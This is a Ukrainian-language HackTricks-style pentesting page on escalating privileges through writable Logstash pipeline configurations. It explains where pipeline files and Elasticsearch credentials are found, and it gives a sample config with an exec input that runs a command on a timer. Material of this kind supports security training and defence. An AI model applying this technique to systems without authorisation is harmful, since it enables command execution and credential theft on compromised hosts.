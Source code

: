 {{#include ../../banners/hacktricks-training.md}}

## Logstash

Logstash використовується для **збирання, перетворення та відправки журналів** через систему, відому як **конвеєри**. Ці конвеєри складаються з етапів **входу**, **фільтра** та **виходу**. Цікавий аспект виникає, коли Logstash працює на скомпрометованій машині.

### Налаштування конвеєра

Конвеєри налаштовуються у файлі **/etc/logstash/pipelines.yml**, який містить місця розташування конфігурацій конвеєра:
```yaml
# Define your pipelines here. Multiple pipelines can be defined.
# For details on multiple pipelines, refer to the documentation:
# https://www.elastic.co/guide/en/logstash/current/multiple-pipelines.html

- pipeline.id: main
path.config: "/etc/logstash/conf.d/*.conf"
- pipeline.id: example
path.config: "/usr/share/logstash/pipeline/1*.conf"
pipeline.workers: 6
```
Цей файл розкриває, де розташовані **.conf** файли, що містять конфігурації конвеєра. При використанні **Elasticsearch output module** зазвичай **конвеєри** включають **Elasticsearch credentials**, які часто мають великі привілеї через необхідність Logstash записувати дані в Elasticsearch. Шаблони в шляхах конфігурації дозволяють Logstash виконувати всі відповідні конвеєри в призначеній директорії.

### Підвищення привілеїв через записувані конвеєри

Щоб спробувати підвищення привілеїв, спочатку визначте користувача, під яким працює служба Logstash, зазвичай це користувач **logstash**. Переконайтеся, що ви відповідаєте **одному** з цих критеріїв:

- Маєте **доступ на запис** до файлу конвеєра **.conf** **або**
- Файл **/etc/logstash/pipelines.yml** використовує шаблон, і ви можете записувати в цільову папку

Крім того, повинна бути виконана **одна** з цих умов:

- Можливість перезапустити службу Logstash **або**
- Файл **/etc/logstash/logstash.yml** має **config.reload.automatic: true** встановленим

З огляду на шаблон у конфігурації, створення файлу, що відповідає цьому шаблону, дозволяє виконувати команди. Наприклад:
```bash
input {
exec {
command => "whoami"
interval => 120
}
}

output {
file {
path => "/tmp/output.log"
codec => rubydebug
}
}
```
Тут **інтервал** визначає частоту виконання в секундах. У наведеному прикладі команда **whoami** виконується кожні 120 секунд, а її вивід направляється до **/tmp/output.log**.

З **config.reload.automatic: true** у **/etc/logstash/logstash.yml**, Logstash автоматично виявлятиме та застосовуватиме нові або змінені конфігурації конвеєра без необхідності перезавантаження. Якщо немає шаблону, зміни все ще можуть бути внесені в існуючі конфігурації, але слід бути обережним, щоб уникнути збоїв.

## References

{{#include ../../banners/hacktricks-training.md}}
